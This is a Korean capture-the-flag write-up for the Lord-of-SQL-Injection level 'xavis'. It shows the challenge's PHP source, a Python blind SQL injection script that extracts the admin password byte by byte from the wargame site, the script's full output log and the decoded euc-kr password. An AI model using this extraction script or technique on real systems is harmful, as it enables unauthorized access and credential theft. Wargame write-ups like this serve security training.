

# Lord-Of-SQL-Injection 19 xavis

## Overview

```php
<?php
    include "./config.php";
    login_chk();
    dbconnect();
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
    if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe");
    $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

    $_GET[pw] = addslashes($_GET[pw]);
    $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis");
    highlight_file(__FILE__);
?>
```

## How to solve

엄... 일단 이 문제는 다들 어렵다고 하시던데 멀티바이트 문자열때문에 그렇다고..

일단 몇번의 손퍼징으로 문자열은 `euc-kr` 인코딩을 사용한 값이 들어가있다.

이전에 풀었던 코드보다 훨씬 더 빠른 소스를 사용하였다. (`>`, `<`를 사용하여 탐색)

## Solve code

```python
import requests, urllib

url = "https://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php"

cookie = {"PHPSESSID":"oj8l6aabt4juigeiduqcn1jl73"}

plen = 40 / 4
print("[*] Password length is " + str(plen))

password = ""

for i in range(plen):
    now_value = 256 / 2
    for j in range(256):
        param = {"pw": "' or id='admin' and ord(mid(pw," + str(i+1) + ",1))>="+str(now_value) + "-- -"}
        response = requests.get(url, params=param, cookies=cookie)
        if "<h2>Hello admin</h2>" in response.text:
            param = {"pw": "' or id='admin' and ord(mid(pw," + str(i+1) + ",1))="+str(now_value) + "-- -"}
            response = requests.get(url, params=param, cookies=cookie)
            if "<h2>Hello admin</h2>" in response.text:
                password += chr(now_value)
                break
            now_value += 256 / 2**(j+2)
        else:
            now_value -= 256 / 2**(j+2)
        print("[*] searching " + str(i+1) + " password character.. now " + str(now_value))
    print("[*] found password " + str(i+1) +" character!(" + str(now_value) + ") now : " + password)

print("[*] password is " + password + "(hex : 0x" + password.encode("hex") + ", raw : " + password.encode("hex").decode("hex") + ")")

f = open("./19_xavis_password.txt", "w+")
f.write(password)
f.close()
```

## output

```
[*] Password length is 10
[*] searching 1 password character.. now 192
[*] searching 1 password character.. now 160
[*] searching 1 password character.. now 176
[*] searching 1 password character.. now 184
[*] found password 1 character!(184) now :
[*] searching 2 password character.. now 192
[*] searching 2 password character.. now 224
[*] searching 2 password character.. now 240
[*] searching 2 password character.. now 248
[*] searching 2 password character.. now 252
[*] searching 2 password character.. now 250
[*] searching 2 password character.. now 249
[*] found password 2 character!(249) now :
[*] searching 3 password character.. now 192
[*] searching 3 password character.. now 224
[*] searching 3 password character.. now 208
[*] searching 3 password character.. now 200
[*] searching 3 password character.. now 196
[*] searching 3 password character.. now 198
[*] searching 3 password character.. now 197
[*] found password 3 character!(197) now :
[*] searching 4 password character.. now 192
[*] searching 4 password character.. now 160
[*] searching 4 password character.. now 176
[*] found password 4 character!(176) now : Ű
[*] searching 5 password character.. now 192
[*] searching 5 password character.. now 224
[*] searching 5 password character.. now 208
[*] searching 5 password character.. now 200
[*] searching 5 password character.. now 196
[*] searching 5 password character.. now 198
[*] found password 5 character!(198) now : Ű
[*] searching 6 password character.. now 192
[*] searching 6 password character.. now 224
[*] searching 6 password character.. now 208
[*] found password 6 character!(208) now : Ű
[*] searching 7 password character.. now 192
[*] searching 7 password character.. now 224
[*] searching 7 password character.. now 208
[*] searching 7 password character.. now 200
[*] searching 7 password character.. now 196
[*] found password 7 character!(196) now : Ű
[*] searching 8 password character.. now 192
[*] searching 8 password character.. now 160
[*] searching 8 password character.. now 176
[*] searching 8 password character.. now 168
[*] searching 8 password character.. now 164
[*] searching 8 password character.. now 162
[*] searching 8 password character.. now 161
[*] found password 8 character!(161) now : Űġ
[*] searching 9 password character.. now 192
[*] searching 9 password character.. now 160
[*] searching 9 password character.. now 176
[*] searching 9 password character.. now 168
[*] searching 9 password character.. now 164
[*] found password 9 character!(164) now : Űġ
[*] searching 10 password character.. now 192
[*] searching 10 password character.. now 160
[*] searching 10 password character.. now 176
[*] searching 10 password character.. now 184
[*] searching 10 password character.. now 188
[*] searching 10 password character.. now 186
[*] searching 10 password character.. now 187
[*] found password 10 character!(187) now : Űġ
[*] password is Űġ(hex : 0xb8f9c5b0c6d0c4a1a4bb, raw : Űġ)
```

## password

`0xb8f9c5b0c6d0c4a1a4bb` 를 `euc-kr` 인코딩으로 열면 `몽키패치ㅋ` 가 나온다.

`몽키패치ㅋ` 인줄 알았으나, 뭔가 인코딩이 다르게 적용되는 것 같다.

그래서 SQL 을 돌려서 hex 값을 select 해서 나온 raw값(또는 파이썬 스크립트 구동 후의 파일 출력 raw값)인 `¸ùÅ°ÆÐÄ¡¤»` 를 입력해줘서 풀었다.

